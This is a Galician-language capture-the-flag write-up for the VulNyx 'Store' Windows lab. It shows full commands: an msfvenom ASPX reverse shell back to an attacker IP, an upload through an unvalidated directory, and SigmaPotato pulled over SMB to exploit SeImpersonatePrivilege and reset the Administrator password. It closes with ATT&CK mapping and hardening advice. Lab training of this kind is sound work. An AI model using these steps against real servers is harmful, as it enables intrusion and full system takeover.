

Store
A máquina Store é moi interesante porque...
- Sistema operativo Windows Server 2019
- Servidor web IIS 10.0
- Enumeración web con Dirb e wordlist específico de IIS
- Descubrimento de directorio
/aspnet_files/con funcionalidade de upload - Upload de reverse shell ASPX generada con msfvenom
- Obtención de shell como usuario IIS (low privilege)
- Escalada de privilexios mediante SeImpersonatePrivilege
- Uso de SigmaPotato para impersonation
- Cambio de contrasinal de Administrator
- Acceso final con Evil-WinRM como Administrator
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Store -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Store
Resultado do escaneo de portos:
Portos identificados:
- Porto 80: Servidor web (IIS)
- Porto 445: SMB (Microsoft-DS)
- Porto 5985: WinRM (Windows Remote Management)
Fase 2 — Análise
Escaneo de servizos e versións
# Escaneo detallado dos portos abertos
sudo nmap -p80,445,5985 -sCV IP_VulNyx_Store -oN targeted -oX targeted.xml
Información importante:
- IIS 10.0 como servidor web
- WinRM habilitado no porto 5985
- SMB accesible no porto 445
Enumeración web
# Identificar tecnoloxías web
whatweb IP_VulNyx_Store
# Obter cabeceiras HTTP
curl -I IP_VulNyx_Store
Resultado:
- Servidor web: Microsoft IIS 10.0
Enumeración de directorios con wordlist específico de IIS
Para servidores IIS, é recomendable usar un wordlist específico que inclúe rutas comúns de IIS:
# Descargar wordlist específico de IIS desde SecLists
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/Web-Servers/IIS.txt
# Enumerar directorios con Dirb usando wordlist de IIS
dirb http://IP_VulNyx_Store IIS.txt
Resultado de Dirb:
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Mon Nov 10 07:00:47 2025
URL_BASE: http://IP_VulNyx_Store/
WORDLIST_FILES: IIS.txt
-----------------
GENERATED WORDS: 215
---- Scanning URL: http://IP_VulNyx_Store/ ----
+ http://IP_VulNyx_Store/aspnet_files/ (CODE:200|SIZE:1678)
+ http://IP_VulNyx_Store/aspnet_client/ (CODE:403|SIZE:1233)
+ http://IP_VulNyx_Store/iisstart.htm (CODE:200|SIZE:703)
+ http://IP_VulNyx_Store/iisstart.png (CODE:200|SIZE:99710)
+ http://IP_VulNyx_Store/%NETHOOD%/ (CODE:400|SIZE:324)
+ http://IP_VulNyx_Store/trace.axd (CODE:403|SIZE:2452)
-----------------
END_TIME: Mon Nov 10 07:00:47 2025
DOWNLOADED: 215 - FOUND: 9
Descubrimento crítico:
- Directorio
/aspnet_files/accesible (CODE 200) - Posible funcionalidade de upload de ficheiros
Exploración do directorio aspnet_files
# Acceder ao directorio no navegador
firefox http://IP_VulNyx_Store/aspnet_files/
# Enumerar subdirectorios dentro de aspnet_files
dirb http://IP_VulNyx_Store/aspnet_files/
Resultado:
---- Scanning URL: http://IP_VulNyx_Store/aspnet_files/ ----
==> DIRECTORY: http://IP_VulNyx_Store/aspnet_files/uploads/
---- Entering directory: http://IP_VulNyx_Store/aspnet_files/uploads/ ----
-----------------
END_TIME: Mon Nov 10 07:03:33 2025
DOWNLOADED: 9224 - FOUND: 0
Descubrimento importante:
- Subdirectorio
/aspnet_files/uploads/dispoñible - Este directorio almacena os ficheiros subidos
- Podemos subir un shell ASPX e executalo
Información sobre IIS e ASPX
Que é IIS?
IIS (Internet Information Services) é o servidor web de Microsoft para Windows Server.
Características:
- Servidor web e de aplicacións
- Soporte nativo para ASP.NET e ASPX
- Integración con Active Directory
- Execución de código do lado do servidor
Que é ASPX?
ASPX (Active Server Pages Extended) é unha tecnoloxía de Microsoft para crear páxinas web dinámicas.
Características para explotación:
- Executa código C# ou VB.NET no servidor
- Pode executar comandos do sistema
- Ideal para webshells e reverse shells
Fase 3 — Explotación
Creación de reverse shell ASPX con msfvenom
# Xerar payload ASPX con msfvenom
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=IP_Atacante \
LPORT=443 \
-f aspx \
-o shell.aspx
Saída de msfvenom:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3413 bytes
Saved as: shell.aspx
Upload do ficheiro shell.aspx
Acceder á páxina de upload:
Subir o ficheiro shell.aspx mediante o formulario web
Preparar listener e executar shell
Executar o shell ASPX:
# Acceder ao ficheiro subido para executalo
curl -sX GET "http://IP_VulNyx_Store/aspnet_files/uploads/shell.aspx"
Saída esperada no listener:
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [IP_atacante] from (UNKNOWN) [IP_VulNyx_Store] 49671
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>
Shell obtida como usuario IIS (low privilege)
Verificar privilexios
c:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
c:\windows\system32\inetsrv> whoami /priv
Saída de privilexios:
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege Add workstations to domain Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
Privilexio crítico identificado:
- SeImpersonatePrivilege: Enabled
- Este privilexio permite ataques de impersonation
- Podemos usar SigmaPotato para escalada
Fase 4 — Post-Explotación
Información sobre SeImpersonatePrivilege
SeImpersonatePrivilege é un privilexio de Windows que permite a un proceso suplantar (impersonate) a identidade doutro usuario.
Implicacións de seguridade:
- Usuarios con este privilexio poden escalar a SYSTEM
- Ferramentas como Potato explotan este privilexio
- Común en contas de servizo (IIS, SQL Server, etc.)
Ferramentas de explotación (Potato family)
- JuicyPotato: Para Windows Server 2016 e anteriores
- RoguePotato: Para Windows Server 2019
- PrintSpoofer: Alternativa moderna
- SigmaPotato: Ferramenta moderna e versátil
Preparación de SigmaPotato
# Descargar SigmaPotato desde GitHub ao directorio local /home/kali/Downloads
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.0/SigmaPotato.exe
# Iniciar servidor SMB con impacket
impacket-smbserver compartir -smb2support /home/kali/Downloads
Saída de impacket:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
Copiar SigmaPotato á máquina víctima
c:\windows\system32\inetsrv> cd c:\Windows\Temp
c:\Windows\Temp>
c:\Windows\Temp> copy \\IP_Atacante\compartir\SigmaPotato.exe
Verificar copia:
Executar SigmaPotato para cambiar contrasinal de Administrator
Saída esperada:
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 732 | Token: 0x796 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 948
[+] Current Command Length: 30 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 2740
[+] Process Output:
The command completed successfully.
Contrasinal de Administrator cambiada con éxito a abc123.
Acceso como Administrator con Evil-WinRM
# Conectar mediante Evil-WinRM como Administrator
evil-winrm -i IP_VulNyx_Store -u administrator -p 'abc123.'
Saída esperada:
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
Obtención de flags
# Navegar ao Desktop de Administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
# Ler flag de root
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[FLAG_ROOT]
# Buscar flag de usuario
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users
# Listar usuarios
*Evil-WinRM* PS C:\Users> dir
# Acceder ao usuario correspondente e ler flag
*Evil-WinRM* PS C:\Users> cd [usuario]\Desktop
*Evil-WinRM* PS C:\Users\[usuario]\Desktop> type user.txt
[FLAG_USER]
Ambas flags conseguidas
Correspondencia de fases → MITRE ATT&CK — VulNyx: Store
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| Detección de sistema operativo Windows Server | OS fingerprinting | T1592.004 — Gather Victim Host Information: Client Configurations | CWE-200 — Information Exposure | |
| 2. Análise | Enumeración web con Dirb e wordlist IIS | Web content discovery | T1595.002 — Active Scanning: Vulnerability Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure |
| Descubrimento de directorio /aspnet_files/ con upload | Information disclosure | T1592 — Gather Victim Host Information T1083 — File and Directory Discovery |
CWE-434 — Unrestricted Upload of File with Dangerous Type | |
| 3. Explotación | Creación de shell ASPX con msfvenom | Malicious file preparation | T1027 — Obfuscated Files or Information T1059.001 — Command and Scripting Interpreter: PowerShell |
CWE-434 — Unrestricted Upload of File with Dangerous Type |
| Upload de shell ASPX | File upload exploitation | T1105 — Ingress Tool Transfer T1190 — Exploit Public-Facing Application |
CWE-434 — Unrestricted Upload of File with Dangerous Type | |
| Execución de reverse shell ASPX | Web shell execution | T1505.003 — Server Software Component: Web Shell T1059.003 — Command and Scripting Interpreter: Windows Command Shell |
CWE-94 — Improper Control of Generation of Code | |
| 4. Post-Explotación | Identificación de SeImpersonatePrivilege | Privilege enumeration | T1082 — System Information Discovery T1033 — System Owner/User Discovery |
CWE-269 — Improper Privilege Management |
| Transfer de SigmaPotato mediante SMB | Tool transfer via SMB | T1021.002 — Remote Services: SMB/Windows Admin Shares T1570 — Lateral Tool Transfer |
N/A | |
| Execución de SigmaPotato para impersonation | Token impersonation | T1134 — Access Token Manipulation T1134.001 — Access Token Manipulation: Token Impersonation/Theft |
CWE-269 — Improper Privilege Management | |
| Cambio de contrasinal de Administrator | Account manipulation | T1098 — Account Manipulation T1078.002 — Valid Accounts: Domain Accounts |
CWE-620 — Unverified Password Change | |
| Acceso como Administrator con Evil-WinRM | Remote access with elevated privileges | T1021.006 — Remote Services: Windows Remote Management T1078.002 — Valid Accounts: Domain Accounts |
N/A | |
| Navegación polo sistema de ficheiros e lectura de flags | File and directory discovery | T1083 — File and Directory Discovery T1005 — Data from Local System |
N/A |
Recursos Adicionais
Referencias sobre IIS e ASPX
Referencias sobre Potato exploits
Ferramentas utilizadas
- Dirb: Enumeración web de directorios
- Msfvenom: Xerador de payloads de Metasploit
- Netcat: Listener para reverse shells
- Impacket: Suite de ferramentas para protocolos de rede Windows
- SigmaPotato: Ferramenta de escalada mediante impersonation
- Evil-WinRM: Shell remota mediante WinRM
Vulnerabilidades e configuracións inseguras
- CWE-434: Unrestricted Upload of File with Dangerous Type
- CWE-94: Improper Control of Generation of Code ('Code Injection')
- CWE-269: Improper Privilege Management
- CWE-620: Unverified Password Change
- Upload sen validación: Permite subir ficheiros ASPX maliciosos
- SeImpersonatePrivilege: Mal configuración de privilexios de servizo
Recomendacións de seguridade
- Validación de ficheiros: Implementar validación estrita de uploads (tipo, tamaño, contido)
- Whitelist de extensións: Só permitir extensións seguras (jpg, png, pdf)
- Directorio sen execución: Os ficheiros subidos non deben executarse
- Privilexios de servizo: Non executar IIS con SeImpersonatePrivilege se non é necesario
- Seguridade de WinRM: Restrinxir acceso a WinRM só a IPs autorizadas
- Auditoría: Monitorizar cambios de contrasinais de contas privilegiadas
- Sandboxing: Executar aplicacións web en contenedores illados
Notas Importantes
- Windows Server 2019: Sistema operativo para servidores pero con configuracións inseguras
- IIS con upload: Directorio
/aspnet_files/permite upload de ficheiros ASPX - Sen validación: Non se valida o tipo de ficheiro subido
- SeImpersonatePrivilege: Permite escalada a SYSTEM mediante Potato exploits
- SigmaPotato: Ferramenta moderna para explotar SeImpersonatePrivilege
- WinRM dispoñible: Permite acceso remoto tras cambiar contrasinal
- Wordlist específico: Usar wordlists específicos de IIS mellora a enumeración
Esta máquina é unha excelente demostración da importancia de validar ficheiros subidos e configurar correctamente privilexios de servizos.
Fluxo de ataque resumido
1. Enumeración web con wordlist IIS → /aspnet_files/ con upload
↓
2. Xerar shell ASPX con msfvenom → Upload de shell.aspx
↓
3. Executar shell.aspx → Reverse shell como IIS user
↓
4. Identificar SeImpersonatePrivilege → Transfer de SigmaPotato
↓
5. Executar SigmaPotato → Cambiar contrasinal Administrator
↓
6. Evil-WinRM como Administrator → Flags conseguidas
Comparativa: Potato exploits
JuicyPotato vs RoguePotato vs SigmaPotato
| Característica | JuicyPotato | RoguePotato | SigmaPotato |
|---|---|---|---|
| Windows Server | 2008, 2012, 2016 | 2019, 2022 | 2016, 2019, 2022 |
| Método | COM manipulation | Potato + RogueOxidResolver | Named pipe impersonation |
| CLSID required | Si (específico por SO) | Non | Non |
| Complexidade | Media-Alta | Media | Baixa |
| Uso | Algo complexo | Medio | Sinxelo |
| Estado | Non funciona en Server 2019+ | Funciona en Server 2019+ | Funciona en Server 2016+ |
Conclusión: Para Windows Server 2019, SigmaPotato ou RoguePotato son as mellores opcións. JuicyPotato quedou obsoleto para versións modernas.